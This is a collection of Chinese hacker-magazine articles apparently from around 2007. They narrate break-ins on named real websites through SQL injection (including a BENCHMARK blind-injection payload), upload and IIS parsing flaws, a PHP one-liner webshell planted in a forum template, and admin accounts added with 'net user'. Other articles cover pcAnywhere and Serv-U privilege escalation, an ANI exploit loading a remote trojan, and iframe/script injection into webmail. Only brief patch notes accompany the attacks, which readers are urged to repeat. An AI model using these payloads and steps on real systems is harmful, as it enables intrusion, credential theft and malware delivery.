打开我编写好的漏洞利用工具，在“目标主机”栏填写短消息页面的地址 `http://bbs.icehack.org/pm.php`，然后在“cookie”里把刚才抓取到的 cookie 复制进去。在下拉框里选择“爆表名”，其它的内容不用填写直接单击“发送”，从“返回信息”里我们查看表前缀没有被更改，还是默认的 `cdb_`，如图 5。

> **注意：** 因为 Discuz! 里的表前缀是可以更改的，所以我们最好先登录查看是否是默认的；如果不是，我们可以根据服务器返回的数据库错误语句看出来，并在工具的“表名”里进行修改。

准备工作做完了，下面开始爆指定用户密码。我们随便找一个管理员 uid，在未登录论坛的状态下，单击论坛右侧的“统计”链接，然后单击“管理团队”，就可以看到管理员了，把鼠标移到“lcx”上，IE 状态栏里出现的就是他的 uid 了，如图 6。接着在工具的下拉框选择“爆指定用户密码”，填入刚才找到的 uid，然后“发送到”随便填一个存在的用户名，我填的是我自己 `test2`。最后单击“发送”，我们就可以看到在返回信息里出现了一些信息，其中的那串字符就是我们需要的密码散列，如图 7。


## 一个人的战争

下面我们来到 `http://www.cmd5.com` 网站，输入刚才得到的 md5 散列，提交后如图 8 所示。呵呵，lily，运气不错。


如果论坛版本是 4.x 的话，那情况又有所不同了，似乎 4.x 版本暴不出密码，要采用“盲注”才能获得。也就是采用 MySQL 里的 BENCHMARK 函数，利用 BENCHMARK 对执行结果打一个时间差。

```sql
-1) union select if(substring(password,1,1)=char(57),benchmark(2000000,md5(char(1))),null),1,1 from cdb_members where uid=1/*
```

这个语句的意思是：假如 uid 为 1 的用户的第 1 位密码是 9 的话（注：`char(57)` 转过来等于 9），就执行 200 万次 md5 加密运算。若猜测正确，会因大量计算导致延时；反之会立即返回结果。我们就可以通过这个时间差来判断猜解是否正确。


### 小知识：Benchmark 是什么？

Benchmark 是 MySQL 里的一个内置函数，语法如：`Benchmark(count,expr)`。`Benchmark()` 重复执行 `count` 次表达式 `expr`，可用于测试 MySQL 处理表达式的速度，结果值总是 0。

下边，我们选择一个版本为 4.x 的论坛来进行测试（如 `http://bbs.soxiao.cn`）。同样先抓取 cookie。然后勾选“版本 4.x”的选项，先选择“暴表名”检查前缀，再在下拉框里选择“测延时”，点击“发送”，过一会儿右侧窗口会出现结果。

- 不使用 benchmark 时：2
- 使用 benchmark 时：10.4


这样，我们就应该在“延时”栏填上 7 或者 8，如果返回使用 benchmark 时是 6 秒，那就应该填写 4 或者 3，这个就是判断密码是否正确的标志，如图 9。Uid 就按照前面的方法去寻找，这里填的是 7。然后在下面程序“暴指定用户密码”，最后单击“发送”，程序就开始猜解密码了，如图 10。猜解过程中程序会出现假死状态，并且猜解速度挺慢的，请大家耐心等待，猜解期间可以去吃个饭或者聊聊天：）

一顿饭的时间终于把 md5 散列全部猜出来了，还是到 `http://www.cmd5.com` 里查查 md5 明文，输入刚才得到的 md5 散列，提交后如图 11 所示。

我们再来看看如何获得 webshell，我们仍然以冰点权限论坛为例。使用刚才获得的密码 lily 登录，登录后点击“系统设置”进入后台登录页面，再次输入密码后进入后台，如图 12。

我们可以使用模板来获得 webshell，单击“论坛管理”，然后再单击“界面风格”下的“模板编辑”，单击“默认模板套系”右边的“详情”，如图 13。在“Discuz! 语言包”中单击“actions”后面的编辑，如图 14。

```php
eval($_POST[cmd]);
```

我们在打开页面的第二行处加入 PHP 一句话木马，点击提交后即可把木马插入到这个文件中。

因为我们插入的这个文件在论坛的位置是 `templates/default/actions.lang.php`，所以其完整的地址就是：`http://bbs.icehack.org/templates/default/actions.lang.php`，打开一句话木马连接器，在“木马地址”栏填入地址，在“基本功能列表”里选择“环境变量”后提交，服务器的信息都能正常返回，如图 15。接下来的事就不用我多说了吧？大家各显神通吧！

（文章中涉及到的 Discuz! 论坛漏洞利用工具已经收录于光盘中）


## 科讯 Oday 漏洞——一分钟利用

安静的小E


这天去逛“黑帮小酒馆”，看到了科讯 Oday 的利用工具，顺手下载下来，测试了一下，发现其利用方法和二月份公布的动易 Oday 的利用方式如出一辙：

- 注册一个 `***.asp` 的用户名（成功后系统会自动建立同名目录）。
- 上传图片木马（利用 Win2003 对 asp 目录支持特性）。
- 注册后访问特定 upload 接口参数触发利用（Win2003 服务器可用）。

下面开始演示详细利用过程：通过搜索找到目标站点，打开漏洞利用工具，输入网址并按步骤进行“注册—上传—浏览—开始上传”等操作。

上传后返回空页面，查看源代码可见“图片上传成功”及路径信息；补全访问路径后即可得到一个 webshell。

防护建议：做好服务器维护，及时关注漏洞与补丁；对上传 webshell 可通过搜索最近修改文件进行排查。

针对改后缀 jpg 的 asp 木马：在资源管理器启用“详细信息/尺寸”等列，异常文件通常无正常图片尺寸；再用记事本打开即可发现真实脚本内容。

文末说明：文中涉及的工具已收录于配套光盘。


```asp
<%
Const SHe = "Shell"
Const APP = "Application"
...
Set A = Server.CreateObject("ADODB.Stream")
%>
```

## Win2003 侠侣

### 带我畅易游江湖

蓝梦泽

这日刚上 QQ，学校的老师就告诉我说动易出了新漏洞，让我去看看，把学校网站的补丁给打上。

这个漏洞的编号是 PEAS20070215，危害性是很严重的。入侵者可以通过该漏洞获得 WebShell 权限。动易 2006 所有版本（包括经典版、商业 SQL 版及 Access 版）的正式版，SP1—SP5 都受影响。漏洞的触发原因在于：因为 Win2003 存在着一次中断解析路径的漏洞，当文件夹的名字为类似 hack.asp 的时候（即文件夹的名字看起来像一个 ASP 文件的文件名），此时此文件夹下的文本类型文件都可以在 IIS 中被当作 ASP 程序来执行。这样一来，入侵者就可以将 asp 木马文件的扩展名改为 jpg 或 gif 之类来进行上传，通过访问这个文件即可运行木马。因为微软尚未发布这个漏洞的补丁，所以几乎所有使用 Windows 2003 系统的网站都会存在这个漏洞。

动易的这个漏洞存在于 Reg 目录下的 User_RegCheck.asp 文件中，我们来看一下 175-189 行的代码：

```asp
Function UserNamefilter(strChar)
    If strChar="" Or IsNull(strChar) Then
        UserNamefilter=""
        Exit Function
    End If
    Dim strBadChar, arrBadChar, tempChar, i
    strBadChar = "% & ' ( ) * + , / : ; < = > ? [ ] ^ { }" & Chr(34) & Chr(0)
    arrBadChar = Split(strBadChar, " ")
    tempChar = strChar
    For i = 0 To UBound(arrBadChar)
        tempChar = Replace(tempChar, arrBadChar(i), "")
    Next
    UserNamefilter = tempChar
End Function
```

这段代码的作用是过滤用户名。从过滤的用户名可以看到未过滤掉“.”或“.asp”。由于 IIS 6.0 在设计上的缺陷，当在 IIS 6.0 的网站目录下包含有 ASP 字符串的时候，其目录下的任意文件都会被当作 ASP 文件来解析。因此，漏洞在这里就被触发了。

首先来搜索目标，可以使用挖掘鸡构造一些语句进行挖掘，构造的语句为“/Reg/User_Reg.asp”。关键词是“游戏”，一会儿就挖掘到了很多，如图 1。

我们随便选择一个站点进行测试，就拿 `www.on147.com` 来开刀吧。先去注册一个账号，注册的账号一定要注册成 XXX.asp 形式，如图 2。

注册成功后再利用上传代码来上传修改了扩展名的 asp 木马，`/user/Upload.asp?dialogtype=UserBlogPic&size=5`（这个代码也就是动易整合空间的上传代码），如图 3。


我们再来查看网页源码，从中会看到“图片上传成功”的提示，而且从中也会找到上传文件的路径，如图 4，中间框选的就是我们上传木马后的路径。在浏览器里访问这个文件，就会得到一句话木马了，如图 5。最后使用一句话木马的客户端进行连接，就会成功得到 WEBSHELL 了，如图 6、图 7。


图5

```asp
arrBadChar = Split(strBadChar, ",")
If strChar = "" Then
    CheckUserBadChar = False
Else
    For i = 0 To UBound(arrBadChar)
        If InStr(strChar, arrBadChar(i)) > 0 Then
            CheckUserBadChar = False
            Exit Function
        End If
    Next
End If
CheckUserBadChar = True
End Function
```


图6


图7

从上面的过滤代码中可以看到文件没有过滤到“.”和“.asp”，而导致了恶意用户的注册成功，修补漏洞的方法就是在过滤的地方加入对“.ASP”和“.”的过滤，用于修补的代码如下：

```asp
Function CheckUserBadChar(strChar)
    Dim strBadChar, arrBadChar, i
    strBadChar = "' ,%;--,&,?,(),<,>,[,],{,},/,\\,|,\""
    arrBadChar = Split(strBadChar, ",")
    If strChar = "" Then
        CheckUserBadChar = False
    Else
        For i = 0 To UBound(arrBadChar)
            If InStr(strChar, arrBadChar(i)) > 0 Then
                CheckUserBadChar = False
                Exit Function
            End If
        Next
    End If
    CheckUserBadChar = True
End Function
```

至此，动易漏洞就分析完毕了，而详细的利用方法也已经介绍完了。目前许多的网站使用的都是 Win2003 操作系统，所以这个漏洞的影响是比较大的。希望大家在测试的时候不要搞破坏，使用动易系统的朋友，记得快去打上补丁哦！

### 小编点评：

其实这篇文章和科讯 Oday 那篇文章利用的都是 Windows 2003 在解析 .asp 时的一个缺陷而造成的上传漏洞。只不过，科讯那篇文章使用的是一个专用的上传工具，而动易这篇文章则是使用的一个上传代码。相信通过这两篇文章，大家对 Windows 2003 的这个缺陷有了一定的了解了，相信它以后仍然会有其它类似的漏洞利用被公布的。

（本文所涉及到的工具挖掘鸡已收藏在光盘中）

最后再来看一下该漏洞的修补。对于这个漏洞，官方给出的临时解决方法是删除 Space 文件夹（临时），删除 `User/User_Space.asp` 文件。如果觉得这样做不好的话，还可以在注册用户的地方进行修补。注册用户的文件是 Reg 目录下的 `User_RegPost.asp` 文件，文件中的 475 行-490 行代码如下：

```asp
Function CheckUserBadChar(strChar)
    Dim strBadChar, arrBadChar
    strBadChar = "' ,%;--,&,?,(),<,>,[,],{,},/,\\,|,\""  ' 过滤用户名
```

## 从 IIS 写权限到巅峰权限


在网上闲逛，发现了一个这么一个网站 `http://61.***.***.10/`，因为最近一直在研究 IIS 写权限的利用，所以就使用 IISPutScan 小范围地扫描了一下这个网段，注意界面上的两个选项最好都选上。运气不错，终于翻出了个红色的感叹号（红色感叹号表示具有写权限并且上传文本文件成功，而睡觉的小狗狗表示不具有写权限，黄色感叹号表示有写权限但上传文本文件失败），如图 1。


图1


图3


图2


图4


图6


图5

使用浏览器打开上图中的 shell 地址，然后输入我们刚才修改的密码 clzzy，顺利地就得到了一个 webshell，如图 5。

发现几个盘都可以读取，除极个别特殊设置的目录外（如 system32 等）都可以写入。还有一开始自动搜索漏洞没发现 Serv-U 等平时常见，也不是 X 上传常常提到的第三方软件，ftp 也不行（对方使用的是微软自带的 ftp 组件）。我们现在的权限可以执行一些常规命令，但遗憾的是不能使用 `net user xxx xxx /add` 命令来添加用户，该如何将自己的权限提升为管理员权限呢？

正当我一筹莫展时，我查看服务意外地发现了 pcAnywhere，如图 6。于是，我决定利用 pcAnywhere 来进行提权。从 `C:\Documents and Settings\All Users\WINNT\Application Data\Symantec\pcAnywhere` 目录中找到一个后缀为 CIF 的文件，如图 7。为什么要找这个文件呢？这是因为 pcAnywhere 将用户的密码信息存放在这个文件中的，注意不是 pcAnywhere 安装目录中的 CIF 文件哦。

我将其顺利地下载回来，然后又从网上下载了一个 pcAnywhere 密码破解器，其实也就是一个查看 CIF 文件用户信息的小工具，使用它打开 CIF 文件，看来我人品不错哟，很容易就得到了用户名和密码，如图 8。

接下来的事情就容易了，下载了一个 pcAnywhere，使用其进行连接，在向导中输入目标地址，如图 9，一会儿就出现了登录框，然后输入得到的用户名和密码，如图 10，几秒钟后就看到了对方桌面，如图 11。

由于 pcAnywhere 没有 3389 控制那样方便，画面太慢了（个人感觉），所以我决定再打开 3389 服务。先来建立一个超级账户，我在本地电脑上编写了一个添加账号的批处理文件 `1.bat`，内容如下：

```bat
net user clzzy clzzy /add
net localgroup administrators clzzy /add
```

然后利用 pcAnywhere 的文件传输功能将 `1.bat` 传到了对方的电脑上，如图 12，然后再利用 pcAnywhere 执行刚才传上去的 `1.bat` 文件，执行完毕后，我又回到 webshell 中查看了一下，发现 clzzy 账户已经成功地添加上去了，如图 13。

如果大家手里有免杀的木马，也可以传木马上去，那样控制的效率会更好，至少比 pcAnywhere 要方便得多了！我手头没有免杀的木马，何况我又是在内网中的，所以 3389 才是我最好的选择（其实在内网中也是可以使用诸如灰鸽子这类的木马来进行远程控制的）！（文章中涉及到的工具：IISPutScan、IIS 写权限利用工具、PCAnywhere PassView 以及 pcAnywhere 已经收录于光盘中）


## 动力文章系统 webshell 之旧漏洞，新思路

ToryZen[H.Z]


动力文章系统存在的盲注注入漏洞现在都已经众所周知了吧，漏洞都已经出了这么长的时间，但是在 Google 中搜索动力文章系统，却仍然发现没打上补丁的有许多。正好这两天在家无事可做，就用这个洞来抓鸡吧，本以为能够好好地抓上一把肉鸡，却没想到麻烦事也来了。即使进了后台，如何得到 webshell 也成了难题。

打开 Google，搜索使用动力文章系统的网站，从找到的网站中随便选择一个，我找了一篇文章，并且进入这篇文章的打印页面（图2），输入单引号后，提示错误（图3），然后再输入“and 1=1”和“and 1=2”，结果返回了不同的页面（图4），说明该处存在注入漏洞。


## 一、一个人的战争

进行解密（图6），虽说这类密码也不一定就全部都能成功解密出来，但是大多数都可以的。

寻找动力的后台就更简单了，在主页的最下面就有链接，真是方便了我们这些小菜鸟呀。动力的后台里面虽然有备份数据库功能，但是却有限制，使得我们不能用它来还原我们的后门木马（图7）。常规设置的“网站信息配置”里可以设置上传文件的类型，但经过我的测试，即使添加上 asa 和 asp 的格式，也是不能上传的（图8）。


我又试了一下 cer 格式的文件，没想到添加后竟然上传成功了。我正准备高兴呢，可接下来却让我哭笑不得，访问 cer 的文件竟然提示下载（图9）。

我无奈地在后台翻来翻去，不一会儿又回到了伤心之地——备份数据库。忽然在页面上看到了这么一句话：“相对路径目录，如目录不存在，将自动创建”。备份数据库功能竟然能够创建文件夹！记得刚才在“网站信息配置”一栏上看到可以更改上传的目录（图10），如此一来，这两项联手，webshell 不就到手了吗？我们到备份数据库的备份目录上写上 data.asp，这就是文件夹的名称（图11），然后再来到网站信息配置里的上传文件选项下把“存放上传文件的目录”UploadFiles 改成 data.asp，单击“保存设置”，成功（图12）。最后就到激动人心的时刻了，在添加文章（简洁模式）里上传一个把扩展名改为 jpg 的木马，上传后连地址都告诉我们了，动力真是太为我们着想了。

在浏览器里访问这个地址，熟悉的画面映入眼帘，呵呵，成功了。可等我迫不及待地输入密码进入，却傻了，提示无法找到该页（图13）？晕！不会吧？看看地址也不对啊，小弟不才，还望高手能够指教一下。

我连续试了好几次都不行，本来打算放弃的，抱着试试的态度就上传了个“偷”来的小马，写上小马的内容，保存地址，然后点击“开始上传”（图14），竟然显示“失败了”？不会吧，我又重新打上刚才的地址，嗯，这回出来了，我的绝世好马终于出世了。原来不管是上传成功还是失败，这个小马都是显示“失败”，历尽千辛万苦终于得到了梦寐以求的 vcbshell（图15）。这样一个新的动力后台得 webshell 的思路也就诞生了。

忙活了半天也没看表，现在都12点多了，还是快点偷偷地关掉计算机躺进温暖的被窝吧，要不又要被妈妈骂了，我可是听话的好孩子。好了，就到这里吧，大家快去抓鸡吧！


图14


图15

（文章中涉及到的明小子注入工具已经收录在光盘中）


## 余风

某日，在新世纪网安逛，看到一个“MG2漏洞利用工具”，下载后才发现是个好东西，成功率极高，于是写出来与大家一起分享。

### 一、漏洞简介

据介绍，这是 Apache 的一个比较新的安全漏洞。任意以 .php 开头的文件名，Apache 都会当做 php 文件来解析，比如“.php.comment”就将被当做 php 文件来解析。根据这一缺陷，引发了一系列的漏洞。而 MG2 则是在国外非常流行的一个 PHP + HTML 的图片管理程序，由于商业版被破解，所以程序流传甚广。其最新版本程序存在文件写入漏洞，因此可以配合 Apache 漏洞直接获得 Webshell。

### 二、利用方法

我们在 Google 中搜索关键字“powered by MG2”，从搜索结果中找个地址后面是“index.php”的网页，如图1。


图1

然后把网址复制到漏洞利用工具的地址栏中；因为地址文本框后面有个“/index.php”，所以文本框里的网址形式就应该是“http://www.xxx.com”或“http://www.xxx.com/xx”。我填的是“http://www.rominacarrara.com.ar/galeria”，然后点“上传 SHELL”，稍等一会儿，工具返回页面后我们再点“访问 SHELL”，如果返回如图3所示的页面，就说明上传一句话小马成功了。

接下来，我们上传一个大马，点工具上的“专用一句话连接端”就会自动下载安装木马的客户端，“TTPHP 微型客户端”下载好后，我们把 MG2 漏洞利用工具中的 SHELL 地址，也就是“http://www.rominacarrara.com.ar/galeria/pictures/tt.php.comment”复制粘贴到微型木马客户端的提交网址后面，再点浏览选择我们的 PHP 木马，点上传，如果返回如图4所示的页面，就说明我们的木马也上传成功了。


最后把后面的 tt.php.comment 改成你的木马名字，就可以访问了。我上传的是国外十分强大的 C99SHELL，如图5。大家可以使用记事本打开 C99SHELL，找到如下代码处来修改身份验证，C99SHELL 默认是没有身份验证可以直接访问的。

```php
//Authentication
$login = '';//login
/*DON'T FORGOT ABOUT PASSWORD!!!*/
$pass = '';//password
$md5_pass = '';//md5-crypted pass, if null, md5($pass)
```


如果对它有疑虑的话，大家也可以使用 phpspy，如图6。我使用的是修正版的，默认登录密码是“demo”，大家也可以自己修改。使用何种 PHP 木马不是本文重点，在这里就不多说了。

至此，WEBSHELL 已经拿下了，然后就该是主机的系统权限了。PHP 木马中有反弹 SHELL、Serv-U、EXP、SQL 语句执行等，因为我是在网吧上的操作，远程很不方便，所以就靠大马来自己去捡了。反正使用 MG2 的都是国外的网站，你要是拿不下系统权限的话，传个黑页、挂个马，也可以了！

## 参赛……（主标题，艺术字）


### 一、起因

最近在论坛上获悉国内某知名跑跑卡丁车战队的新网站开通了，我一直是铁杆跑跑迷，一听是刚建好的网站，脑袋里闪过的全是各种各样没有修复的漏洞。向来我就眼红他们在游戏里跑得比我快那么多，这回我一定要好好地测试一下他们的窝，来平衡一下心理（小编：难道这位朋友入侵的理由就是嫉妒别人比自己跑得快，这理由可要不得，当心嫉妒心害死人呀）。

### 二、攻击前奏

我打开网站看了下，发现网站使用的是 ASP，主要由信息发布系统和论坛组成。我查看了一下论坛，感觉安全性蛮高的，所以直接就把目光放到了不知名的信息发布系统上。随便点开一个视频链接 http://219.232.23X.XXX/games/Detail.asp?id=38，在后面加了个单引号，出乎意料的是立即报错了。


这下好了，说不定还是个 SA 呢，赶紧看了下 SQL 的用户是什么，结果却让人大失望（图1）。我只好拿出 NBSI 进行注入，很快就得出来是 DB_OWNER 权限，直接执行 CMD 是没门了，但是可以试试用 NB_Tree_List 来列目录，还算幸运，目录顺利地列出来了，接着轻而易举地找到了 WEB 目录（图2）。


### 三、初次攻击

具备了 WEB 路径和 DB_OWNER 权限这两个条件，就可以试着利用 Log 来进行差异备份拿 WEBSHELL 了。依次提交下列 URL（图3）。成功的话就会在 WEB 根目录备份出一个带一句话木马的 ASP，但是无奈这个备份出来的 ASP 怎么也提交不过木马，第一次攻击以失败告终（图4）。


### 四、再接再厉

利用数据库进行攻击失败了，只好再次从网站程序入手。通过列目录，发现了该网站是利用 eWebEditor 来发布新闻的，在 IE 中输入地址找到了后台，提示输入用户名和密码。因为网站才初建，所以我猜测默认的管理员账号和密码还没被修改，输入 admin，果然进去了（其实即使在这里没有账号和密码也是有办法应对的，因为手上还有 DB_OWNER 权限哟）。先说说对 eWebEditor 的改进方法，网上流传的攻击步骤分两步：先在样式管理项中添加一个样式，然后利用 eWebEditor 只过滤 aspx 的疏忽，在样式的“允许上传文件类型”里添加其它格式，例如 asa、cer 等不影响 webshell 执行的扩展名，接着就可以利用消息发布里的上传功能来上传后门了。知道了攻击方法就好办了，添加一个样式，完成一些简单的设置后保存，但是意想不到的是发生了错误（图5）。


### 五、实战 eWebEditor SQL 版

正所谓好事多磨，我想了一下发生错误的原因，大概是因为网上流传的攻击方法都是针对使用 ACCESS 数据库的 eWebEditor，而我面对的是 SQL 版的 eWebEditor，所以攻击方法不能套用。因为基本样式的设置是无法在后台里修改的，也就是说后台暂时的用途不大。静下来想了想，样式无非就是调用了数据库里记录的数据，后台虽然不能更新数据库，但是我却可以利用 DB_OWNER 来改成我需要的啊！马上从网上下载了 eWebEditor.mdb，进行简单的分析后，对比了一下 NBSI 爆出的表和列，发现扩展名都是存放在一个叫 eWebEditor_Style 的表里，就拿扩展名最少的 S_FlashExt 列来开刀吧。


点击进入 NB Commander，执行下面的 SQL 语句：`Update eWebEditor_Style set S_FlashExt='swf|asa' where S_FlashExt='swf'`，提示执行成功。赶紧登录到后台看看样式的配置，果然 flash 允许上传类型的扩展名里多了 asa（图6）！接下来就简单多了，使用管理员身份发布信息，然后在上传 flash 时传个 asa 扩展名的小马（图7），再用小马换大马。

### 六、最后的防线

拿到 Webshell，似乎成功了一大半，接下来看看有什么能够帮我拿到 System 权限的。打开 WScript.Shell 程序运行器，运行 `net start`，却出现了下面提示，看来是权限不够。


没关系，我们自己上传一个 cmd.exe 到 D 盘，然后继续执行 `net start`，呵呵，服务终于一一列出来了（图8），其中对我们有用的是 PCanywhere、SERV-U、Terminal Service。在本地使用 TELNET 远程连接了一下这些服务的默认端口，发现都没有被防火墙拦截，这可让笔者以后省去不少麻烦啊。在众多的服务中，无疑 SERV-U 是提升权限的主要突破口，通过查看它建立在开始菜单的快捷方式属性，很容易就找到了它所在的目录，直接在 WEBSHELL 里跳转，发现它是安装在默认的 C 盘里，所以无法直接修改 ServUDaemon.ini 文件来达到提升权限的目的，只好利用大名鼎鼎的 SERV-U 本地权限提升漏洞了。拿出 xiaolu 修改的 su.exe，上传到 D 盘，然后执行下面命令：


再使用 `net user` 命令查看一下，居然没有添加上用户。出现这种情况，很有可能是默认的内置账户和密码被改掉了。得先确定一下密码有没有被修改，把 ServUDaemon.exe 下载回本地。以前可以通过使用 UE 编辑 ServUDaemon.exe 来找出内部密码，但是目前已经有大虾编写出了实现找密码和生成提权文件的工具，省去了我等菜鸟的不少麻烦。直接拿出 Serv-U 提权综合工具，点击“口令读取”，填上 SERV-U 的版本号（在 ServUDaemon.ini 里可以看到），却发现密码并没有被改掉（图9），再使用 su.exe 试了几次提权还是不行。这可真郁闷了，看来得再换别的方法了。于是使用提权综合工具生成了一个 GoldSun 写的 ASP 版的 SERV-U 提权工具，上传到 WEB 目录后试着在 IE 里运行它，改了一下 cmd 的路径后直接点提交（图10），一会儿出现了如图11所示的提示。


再使用“net user”查看，果然发现多了一个 goldsun 用户（图12），最后一道防线终于被攻破了！赶紧使用远程桌面登录看看自己的战果，哟，双至强 CPU，2G 内存，配置还不错嘛（图13）！


> （文中涉及到的 NBSI、su.exe、Serv-U 提权综合工具已经收录在光盘中）

## Windows 动画光标文件（.ANI）最新漏洞来了

黑叉子

三月底，互联网上公布了针对 Windows 系统的一个非常严重的远程溢出漏洞，这就是 Windows 动画光标文件（.ANI）远程溢出漏洞（MS07-017）。这个漏洞主要是由于 Windows 的 LoadAniIcon() 函数（user32.dll）在渲染畸形的光标、动画光标文件（.ani）或图标时没有正确地验证 ANI 头中所指定的大小，所以才导致了栈溢出。该漏洞影响 Windows 2000 SP4、Windows XP SP2、Windows 2003 SP1 以及微软最新的 Vista 系统。目前，针对该漏洞的利用代码在网上已经公布了多个版本，因此，这个漏洞正在被大量地用于挂马，各位读者上网的时候一定要小心了。


## 一个人的战争

心的莫过于这个最新漏洞的利用了。那好，我们就以火狐公布的这个漏洞利用工具为例来进行演示吧！工具运行后的界面如图1所示，在最上方的地址栏中输入我们的木马地址，也就是要执行的木马文件，比如 `http://conglin.cn/1/l.exe`，然后点击右边的“生成”按钮……

测试程序在本地被运行了，如图3。实际的使用过程中，我们只需将这个网马测试程序换成我们配置好的木马服务端程序就可以了。著名的 eEye 公司针对该漏洞曾经推出了一个补丁程序，但逆鳞的程序、网上最新公布的漏洞利用代码中，据说是可以绕过这个漏洞补丁的……补丁下载地址是 `http://www.microsoft.com/technet/security/Bulletin/MS07-017.mspx?pf=true`。

## 网易邮箱再现跨站漏洞


看了剑心关于邮箱跨站的文章后，我也试着用邮箱来跨了一次。不过，不像剑心那样测试全国的，我仅仅测试了网易 163 的邮箱系统。先到 163 贺卡的站点上来看看：`http://cards.163.com`，随手选了一个贺卡，改了点东西就可以看到如图1所示的效果了。

应用中，最好别用这么大 `width` 和 `height` 的值，当然是使用 0 了……去收个邮件看看，如图2。是不是看到发件人那里变形了，只要把宽和高改成“0”就可以解决这个问题了……如图3所示，可以看到发件人已经变形了。


再来看一看贺卡，如图4，不用多说了吧，效果不错，而且别人看到了贺卡以后还会发个 Mail 通知你，不要用来做坏事哦！


看到标题没有，发送 `<script>...`，这里暴露了我们的目的……那么就来狠一点的，在贺卡下面有一个续卡模式……不过此时对方已经中招了……

```html
></script><iframe width=420 height=330 src="http://www.woidiy.com"></iframe><
```

## PHPWind 远程漏洞问题

hackest [H.S.T]

### 一、山雨欲来风满楼

一直以来，Discuz! 论坛在我的印象中安全性都是比较高的，可是最近却接二连三地爆出了一些安全漏洞，害得我在架设自己的论坛时，只好选用了 PHPWind 5.3。某天早上我正在管理自己的论坛，发现有人在恶意发广告，就去删除对方发的广告帖。没想到在删除第一个之后，竟然提示我的密码已被更改，需要重新登录……后来得知 PHPWind 真的出现了一个非常严重的 0day 漏洞，影响 5.0.1 和 5.3 版本，目前还没有修复补丁。


### 二、初探虚实

听到这个消息，我大吃一惊，想不到 PHPWind 真的出了 0day 漏洞。我赶紧从 QQ 的好友中要来了漏洞利用工具。这个漏洞利用工具为压缩包，内含两个文件：一个是漏洞利用程序，另一个是说明文本。程序运行后如图1所示。我先用自己的论坛测试，在“Board URL”“Username”“Password”中填入对应信息，先点“Test Bug”测试漏洞是否存在，再点“Attack”开始攻击（修改指定用户密码），弹出结果窗口后即可用更改后的密码进入后台。

### 三、满城风雨

测试成功了，我决定再去找几个大型的论坛来练练手。第一个目标就是“新世纪网安基地”论坛……去地址为 `http://bbs.520hack.com/`。按照上面所说的方法依次填好各项，点击“Attack”后提示成功，然后以管理员身份成功登录进了后台……访问后就得到了 webshell，如图6。ASP 木马用着不太爽，就又上传了一个 PHP 木马，如图7。整个过程就是这么简单，几下子就拿到了论坛的控制权限了，网站根目录可读可写，至于挂黑页和挂马，我是历来反对的，就不做了。


无意中我竟然发现有 Serv-U，于是开始尝试提权，直接使用 PHP 木马自带的 Serv-U 提权程序试了一下……成功地添加了一个用户，并加进了管理员组，然后登录进了服务器，如图8。不过进去后不到五分钟就被管理员踢了出来，如图9……后来我又试了一下我经常去的“邪恶八进制”论坛，当然也成功了，使用“冰血封情”老大的 ID 成功登录进了论坛，如图10。这个漏洞可是玩得爽呀！


### 四、漏洞修补

更改了“冰血封情”的密码后当然要通知他哟，要不然我可就成千古罪人了！后来又通知了 PHPWind 官方，官方不久后就发布了补丁程序。对于还没有修补此漏洞的站长可以到下面的地址下载更新补丁。

`5.0.1` 版补丁下载地址：`http://www.phpwind.com/5.0/safe_repair.zip`  
`5.3` 版补丁下载地址：`http://www.phpwind.com/5.3/safe_repair.zip`

漏洞的利用就是这么简单，至于漏洞的形成原因我就不清楚了……如果大家对于该漏洞还有什么更好的玩法，也请一起分享一下哟！（文章中涉及到的 PHPWind 漏洞利用工具已经收录在光盘中）


## QQ邮箱充满柔情

这几天有几个新手群里总是讨论如何进入别人的个人电脑的问题。由于目前很多系统都封堵了一些漏洞，感觉针对个人电脑的入侵甚至要比入侵服务器还要困难一些，我认为使用社会工程学来得更快捷有效一些。再由于 QQ 在国内的用户群很大，我自然就联想到 QQ 邮箱挂马了，不管三七二十一，先跨了再说，先来个：`` 测试一下，很顺利地弹出了对话框，如图1。

直接输入我们的挂马代码（至于“<”“>”等字符想都不用想，肯定是会被过滤的）：``，如图5。


没想到如此顺利，看来又是没有被过滤，如图2。剩下的事儿就简单了，直接写信并“切换到彩色图文”，如图3。接着编辑 HTML 源码，如图4。

这里需要把特殊字符转换成十六进制：“<”对应“%3C”，“空格”对应“%20”，“=”对应“%3D”，“:”对应“%3A”，“>”对应“%3E”。我是以我的 BLOG 页面做的测试，在实际运用中把网址换成你的网页木马，把 width 宽和 height 高的值换成 0 即可，然后写一写祝福的语言等等，我们就把信发送出去吧！看一下收信的情况，如图6。

```html
XDIVXBX
<DIV style='FONT-WEIGHT: normal'><B>主题：</B>最近怎么样啊，朋友？</DIV>
<DIV>&nbsp;</DIV>
<DIV style='FONT-WEIGHT: normal'></DIV>
</B>
```


如果换成了有效的网马，进入别人的个人电脑还是问题吗？

## PHPWind 插件最新漏洞大曝光

PHPWind 于 4 月 6 日公布的 0day 漏洞，导致不少网站被黑，好在后来官方也及时发布了补丁程序。这天，在 PHPWind 官方的网站上发现了公布的图片防盗链插件的漏洞，居然还有新的漏洞，我顿时来了兴趣。

内置按引用图片规则会显示指定的出错图片。比如图片的原地址是 `http://www.xxx.com/attachment/123456.jpg`，图片加密后的地址是 `http://www.xxx.com/showpic.php?YXR0YWNobWVudC8xMjM0NTYuanBn`。那么，在 showpic.php 中就会有 `base64_encode("YXR0YWNobWVudC8xMjM0NTYuanBn")` 与 `base64_decode("attachment/123456.jpg")` 这类的代码用于加解密。

### 一、漏洞原理

安装好图片防盗链插件后，会将论坛要显示的“上传图片”路径使用 base64（网络上最常见的用于传输 8Bit 字节代码的编码方式）编码加密，再通过 showpic.php 解密路径并显示出图片。在 showpic.php 中通过获取 REFERER，也就是图片来源地址来判断图片是否盗链。这样就完成了防盗链的过程，在未授权网站内置按引用图片规则会显示指定的出错图片。

```php
$excludeReferArr = array('www.xxx.com');
// 允许调用的域名，自己的网站只支持该域名

doJudgeReferer($excludeReferArr); // 判断图片来源
$str = $_SERVER['QUERY_STRING']; // 获取showpic.php?后面$值
$img = base64_decode($str); // 对加密路径解码
readfile($img); // 读取文件路径并显示出来

function doJudgeReferer($excludeReferArr){
  $referUrl = parse_url($_SERVER['HTTP_REFERER']);
  $referHost = $referUrl['host'];
  if($referHost != '' && $referHost != $_SERVER['HTTP_HOST']
    && !in_array($referHost, $excludeReferArr)){
      header('location:pic_error.gif');
      exit;
  }
}
?>
```

对方上传的图片的地址来进行判断，如图2，该网站果然使用了图片防盗链插件。


我们看上边代码中的 **readfile($img);** 这句，关键在于 `$img` 路径未经判断和过滤就直接放入了 `readfile()`。这样一来只要构造地址，就可以让它读取任意路径下面的文件。

### 二、漏洞范围

